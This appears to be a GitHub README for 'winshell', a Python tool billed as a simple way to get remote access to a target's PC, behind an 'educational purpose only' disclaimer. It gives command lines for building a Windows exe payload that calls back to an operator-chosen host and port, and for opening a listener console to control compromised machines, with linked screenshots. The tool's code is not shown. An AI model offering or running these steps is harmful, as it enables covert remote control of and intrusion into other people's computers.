 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 



Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Console Example
---------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --console 1   
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >   



Generating exe file Example
--------------------------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --name shell   
----------------------------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_shell_example.JPG">   

<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG">   


